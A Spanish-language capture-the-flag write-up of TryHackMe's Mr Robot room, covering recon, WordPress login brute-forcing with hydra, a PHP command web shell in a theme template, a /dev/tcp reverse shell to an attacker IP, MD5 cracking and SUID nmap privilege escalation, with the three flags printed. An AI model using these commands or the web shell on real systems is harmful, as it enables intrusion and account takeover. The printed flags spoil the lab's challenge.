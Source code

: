 ```yaml
---
layout: single
title: Mr Robot CTF - TryHackMe
excerpt: " Mr. Robot CTF is a Mr. Robot-themed room on TryHackMe. It involves basic recon and it will give you a start on WordPress vulnerabilities if you are new to Web exploitation (WordPress Vulnerability → Reverse Shell). "
date: 2022-09-15
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-mrrobotctf/mrrobotctf.jpeg
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:  
  - wordpress
  - hydra
  - php
  - python
---
```


Mr. Robot CTF is **a Mr.** **Robot-themed room on TryHackMe**. It involves basic recon and it will give you a start on WordPress vulnerabilities if you are new to Web exploitation (WordPress Vulnerability → Reverse Shell).

# Summary
- IP: 10.10.134.125
- Ports: 80,443
- OS: Linux (Ubuntu)
- Services & Applications:
	-  80 -> Apache httpd
	-  443 -> Apache httpd

# Recon

- Escaneo de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.134.125 -oG allPorts
```

- Escaneo profundo de puertos encontrados:

```bash
$sudo nmap -p80,443 -sCV 10.10.134.125 -oN targeted
```

- Examinamos la página web con gobuster:

```bash
$gobuster dir -u http://10.10.134.125/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt
```


- Analizamos el archivo "robots.txt" y encontramos directorios, examinamos los mismos y encontramos la primera flag:
# 1ra FLAG: 073403c8a58a1f80d943455fb30724b9

- Analizamos el directorio "wp-login.php" y nos encontramos con una página de login de wordpress, interceptamos con burpsuite la petición al intentar logear y encontramos los parámetros log y pwd, los cuales usaremos con hydra para aplicar fuerza bruta; 
- Primero encontraremos un usuario, esto usando el diccionado encontrado antes en el archivo robots.txt
PoC:
```bash
hydra -L <user.file> -P <password.file> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”

```


```bash
$hydra -L fsocity.dic -p test 10.10.134.125 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.134.125%2Fwp-admin%2F&testcookie=1:invalid username" -t 30
```

- Encontramos el usuario Elliot, ahora intentamos encontrar la contraseña:

```bash
$hydra -l Elliot -P file.txt 10.10.134.125 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.134.125%2Fwp-admin%2F&testcookie=1:The password you entered for the username" -t 30
```


O usando wpscan:

```bash
$wpscan --url http://10.10.134.125/wp-login.php -U Elliot -P /home/dante/Tryhackme/MrRobotCTF/content/fsocity.dic
```


- Accdemos al panel de Wordpress, buscamos el editor de temas, escogemos una plantilla, buscamos el recurso 404 template y lo editamos incrustándole una reverse shell en PHP:


```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

- Guardamos el recurso y accedemos a él poniéndonos en escucha en el puerto 443:

http://10.10.134.125/wp-content/themes/twentythirteen/404.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.18.101.123/443  0>%261"

- Hacemos tratamiento de la tty y buscamos la segunda flag.
- Como la tty no se encuentra ejecutada como bash lo hacemos con el siguiente comando:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

- No tenemos permisos paras abrir la flag, pero tenemos un archivo password md5 el cual tendremos que crackear con John:

```bash
$sudo john --format=Raw-MD5 -w:/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt password.txt
```


- Encontramos la segunda flag:
# 2da FLAG: 822c73956184f694993bede3eb39f959



# Escalando privilegios:

- Buscamos binarios con permisos SUID:

```bash
robot@linux:/usr/local/bin$ find / -perm -4000 2>/dev/null
```


- Notamos que podemos ejecutar nmap con permisos SUID, buscamos en GTFobins posibles maneras de acceder como root y vemos lo siguiente:

```bash
The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.


nmap --interactive
nmap> !sh
```


- Buscamos la root flag:
# ROOT FLAG 3ra: 04787ddef27c3dee1ee161b21670b4e4
